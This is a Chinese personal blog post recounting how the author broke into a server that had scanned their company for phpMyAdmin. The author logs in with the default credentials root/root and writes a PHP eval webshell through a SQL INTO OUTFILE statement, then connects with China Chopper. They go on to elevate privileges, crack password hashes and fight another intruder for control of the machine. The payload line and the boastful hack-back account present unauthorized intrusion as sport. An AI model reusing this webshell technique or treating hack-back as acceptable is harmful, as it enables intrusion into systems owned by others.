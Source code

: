 ```yaml
---
id: 49
title: 一次黑产对抗 体验攻防的快感
date: 2017-08-12T11:47:41+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

在某个大雪纷飞，天寒地冻的天气，在这么恶劣的天气情况下，我艰难的查看公司的日志

一个ip每天扫一次我们有没有phpmyadmin的目录  
于是乎我决定看一看究竟  
直接在网页中打开这个ip  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-300x177.png" alt="" width="300" height="177" class="alignnone size-medium wp-image-50" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-300x177.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-768x453.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1024x604.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-830x489.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-230x136.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-350x206.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-480x283.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4.png 1089w" sizes="(max-width: 300px) 85vw, 300px" />  
映入眼帘是我们熟悉的phpmyadmin

试试弱口令吧

root/root

惊奇的进去了

奈何不知道目录 （这里感谢一公司大神的提权之道直接猜了目录）

select &#8216;<?php @eval($_POST[admin])?>&#8216;INTO OUTFILE &#8216;D:/www/a.php&#8217;

  
写入一句话木马

菜刀连接之  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-300x181.png" alt="" width="300" height="181" class="alignnone size-medium wp-image-51" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-300x181.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-768x463.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-230x139.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-350x211.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1-480x290.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-1.png 794w" sizes="(max-width: 300px) 85vw, 300px" /> 

发现是system权限直接提权之

登录之后发现好像是某私服网站然后被挂马了，用来当肉鸡  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-300x215.png" alt="" width="300" height="215" class="alignnone size-medium wp-image-52" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-300x215.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-768x550.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-230x165.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-350x251.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2-480x344.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-2.png 781w" sizes="(max-width: 300px) 85vw, 300px" />  
既然知道了 都不干净 留个管理员就不深入了

然而逆转性的东西发生了 这货控制这肉鸡这货第二天居然把我的管理员账号给删了

我不搞你 你却搞我 这我不能忍

于是乎一场肉鸡保卫战就这么开始了

1首先查看原来的一句话有没有被删除 （没被删除）

2于是重新建立个账户登录上去  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-300x249.png" alt="" width="300" height="249" class="alignnone size-medium wp-image-53" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-300x249.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-230x191.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-350x290.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3-480x398.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-3.png 594w" sizes="(max-width: 300px) 85vw, 300px" />  
这里用了别人的图

那台肉鸡已经被我装了360……….

抓到管理员密码的hash然后破解之

我看到一个apache的账号特别活跃 于是乎登了上去 一看全是扫描工具在扫描

突然被顶了 一开始以为被主人发现了 登回去看看 发现开始气急败坏装360并t掉我 我仔细一想不对啊

怎么不用administrator的账户呢 后来在明白这货没有抓取密码

于是我登录管理员的账户 他登录一个账户我T掉他删掉一个账户 一来二去最后guest的账户都被我改密码了

这货开始传马 他传一个我删一个==（技术不到家）实在弄不过来了

最后把PHPstudy的环境关了

怎么才能不让他上传呢 大神幽幽的说了句吧写入权限关掉不就可以了么  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-245x300.png" alt="" width="245" height="300" class="alignnone size-medium wp-image-54" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-245x300.png 245w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-230x282.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4-350x429.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-4.png 423w" sizes="(max-width: 245px) 85vw, 245px" />  
机制如我  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-300x96.png" alt="" width="300" height="96" class="alignnone size-medium wp-image-55" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-300x96.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-768x245.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-830x265.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-230x73.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-350x112.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5-480x153.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-5.png 969w" sizes="(max-width: 300px) 85vw, 300px" />  
写不进去 本来想给他装个安全狗的

后来一想岂不是我的shell也连不了了

就没装  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-300x72.png" alt="" width="300" height="72" class="alignnone size-medium wp-image-56" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-300x72.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-230x55.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-350x84.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6-480x116.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-6.png 723w" sizes="(max-width: 300px) 85vw, 300px" />  
后来火眼看了它木马发现与这个ip有通信

美国ip不翻墙访问不了 又在apache日志上看到大量 ip大都是香港的

再追溯太难 就这样先端掉他一个小肉鸡再说

不过说实在的 这服务器比我小主机强多了  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-300x291.png" alt="" width="300" height="291" class="alignnone size-medium wp-image-57" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-300x291.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-230x223.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-350x340.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7-480x466.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/4-7.png 648w" sizes="(max-width: 300px) 85vw, 300px" />